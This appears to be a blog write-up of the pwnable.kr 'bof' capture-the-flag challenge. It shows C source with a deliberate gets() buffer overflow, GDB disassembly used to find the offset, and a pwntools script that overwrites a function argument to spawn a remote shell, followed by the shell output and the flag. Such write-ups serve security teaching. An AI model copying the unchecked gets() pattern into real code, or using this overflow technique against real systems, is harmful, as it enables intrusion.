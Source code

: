 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - bof"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?




```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.

So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.

The goal of this challenge is to overwrite `key` with the value  `0xcafebabe`, by default function arguments are stored at `ebp+8, ebp+c, ...`, there is only on argument so we now it's at `ebp+8` (note that in 64 bit systems, function arguments are stored in the registers).

Using GDB, we can disassemble `func` to know the exact offset of the input buffer array from the `key` argument.

```
gef➤  disassemble func 
Dump of assembler code for function func:
.....
   0x56555644 <+24>:	call   0xf7e2db70 <puts>
=> 0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e2d0c0 <gets>
=> 0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
.....
```

Great, now we now the buffer is at offset `0x2c` from ebp, so we need to send: 

**[0x2c characters to reach ebp + 4 bytes for saved ebp + 4 bytes for the return address + the value 0xcafebabe]**.

# Solution:

```python
#solve.py

from pwn import *

p = remote('pwnable.kr', 9000)

buf = ""
buf += 'A' * 0x2c
buf += 'XXXX'		# saved ebp
buf += 'XXXX'		# ret address
buf += p32(0xcafebabe)	# value to overwrite key

p.send(buf)
p.interactive()		# for interactive shell
```

```
$ python2 solve.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode

$ ls
bof
bof.c
flag
log
log2
super.pl

$ cat flag
daddy, I just pwned a buFFer :)
```

Flag: `daddy, I just pwned a buFFer :)`